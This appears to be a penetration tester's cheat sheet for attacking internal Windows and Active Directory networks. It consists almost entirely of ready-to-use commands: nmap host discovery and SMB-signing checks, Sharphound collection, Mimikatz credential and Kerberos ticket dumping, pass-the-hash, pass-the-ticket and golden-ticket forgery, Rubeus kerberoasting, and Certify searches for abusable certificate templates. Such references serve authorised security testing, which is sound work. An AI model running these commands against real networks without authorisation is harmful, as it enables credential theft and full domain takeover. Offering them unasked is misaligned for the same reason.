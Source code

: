 # Internal Pentesting - Windows

{% hint style="danger" %}
This is my general rough process. Each pentest is unique and does not follow a "guide". Some of these tools are loud and will get deteced. Make sure YOU understand each tools use, flags, and more when using. Some tools may cause unintendid harm if used incorrectly.
{% endhint %}

Starting with some NMap Scans/Scripts we can find plenty of other information for more targeted attacks and finding other attack paths/vectors. Then depending if we were given user credentials to perform a "compromised user" approach, we can go down other paths, but either way we would want to check for all of these with and without credentials.

We should verify if the machine is domain joined or not as well.

### NMap

* Find Uphosts:

```
nmap -sn -iL targets.txt -oG - | ForEach-Object { if ($_ -match "Up$") { ($_ -split ' ')[1] } } > up-hosts.txt
```

* Scan and output to file:

```
nmap -p 80 --open -iL targets.txt > 80.txt
```

* SMB Signing Not Required:

```
nmap -p 445 -iL uphosts.txt --script smb2-security-mode.nse > smb-signing-not-required.txt 
```

* SNMP Info

```
nmap -Pn -sV -p 161 --script=snmp-info IP
```

* Puts saved output into a list of IPs:

```
Select-String -Path "input.txt" -Pattern '\b(?:\d{1,3}\.){3}\d{1,3}\b' | ForEach-Object { $_.Matches.Value } > output.txt
```

### Sharphound

Ingest Files for bloodhound

```
Sharphound.exe -u USER -p 'PASSWORD' -d DOMAIN -c All
```

### Mimikatz

#### Enable debug privileges

```
privilege::debug
```

#### sekurlsa

* Extract credentials from the system's memory

```
sekurlsa::logonpasswords
```

```
sekurlsa::logonPasswords full
```

* Dump and export Kerberos tickets from memory

```
sekurlsa::tickets /export
```

* Pass the hash - PTH

```
sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:HASH /run:cmd
```

#### kerberos

* Dump and export Kerberos tickets from memory associated with active user sessions

```
kerberos::list /export
```

* Pass the ticket - PTT

```
kerberos::ptt c:\TICKET
```

* Create a Golden Ticket

```
kerberos::golden /admin:DOMAIN-ADMIN /domain:DOMAIN /sid:USER-SID /krbtgt:KRBTGT /ticket:TICKET
```

#### TGT

* Interact with and manipulate Kerberos tickets

```
kerberos
```

#### ekeys

* Dump encryption keys from the system's memory

```
sekurlsa::ekeys
```

#### DPAPI

* Extract and decrypt credentials protected by DPAPI (Data Protection API) from memory

```
sekurlsa::dpapi
```

### Rubeus

* Verify we can obtain a valid Kerberos ticket

```
.\Rubeus.exe asktgt /user:USER /password:PASSWORD
```

* Dump all Kerberos tickets currently in memory for the logged-in user

```
.\Rubeus.exe dump
```

* Export file tickets to .kirbi file

```
.\Rubeus.exe dump /export
```

* Requests a service ticket (TGS) for a specific service using an existing TGT.

```
.\Rubeus.exe asktgs /ticket:BASE-64-TICKET
```

* Request service tickets for SPNs (Service Principal Names) associated with service accounts

```
.\Rubeus.exe kerberoast
```

```
klist
```

### Certify

* Find all enabled certificate templates

```
.\Certify.exe find
```

* Find vulnerable/abusable certificate templates

```
.\Certify.exe find /vulnerable
```
